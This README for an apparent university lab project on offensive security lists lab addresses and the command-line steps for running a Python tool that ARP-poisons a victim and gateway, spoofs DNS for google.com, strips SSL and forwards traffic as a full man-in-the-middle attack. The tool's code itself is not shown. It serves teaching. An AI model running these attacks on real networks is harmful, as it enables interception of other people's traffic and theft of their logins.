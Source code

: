 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --ipToSpoof "10.0.123.1"`

2. ARP poison the gateway: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.1" --ipToSpoof "10.0.123.5"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

4. SSL Strip the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill -9 <PID>
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --siteToSpoof "google.com"`

# Or Run the full attack at once:
### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill -9 <PID>
1. `sudo python3 main.py --interface "enp0s10" fullAttack --ipVictim "10.0.123.5" --ipGateway "10.0.123.1" --siteToSpoof "google.com"`